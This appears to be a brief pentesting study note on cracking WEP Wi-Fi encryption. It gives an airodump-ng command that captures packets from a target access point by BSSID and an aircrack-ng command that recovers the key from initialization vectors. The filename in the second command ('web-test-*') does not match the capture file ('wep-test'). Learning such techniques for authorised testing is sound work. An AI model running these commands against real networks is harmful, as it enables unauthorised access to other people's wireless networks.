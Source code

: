 # WEP cracking

**Passive Attack which attacker Sniff packet on target network and save it in file call `wep-test`**

![image.png](<../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png>)

```bash
airodump-ng wlan0 --channel 5 --bssid D8:29:18:0A:08:91 --write wep-test
```

***

### Use Aircrack-ng tool

which crack WEP by initialization vector

```bash
aircrack-ng web-test-*
```

need more than 5000 IVs `each action is IVs`

<figure><img src="../../../.gitbook/assets/image 1 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
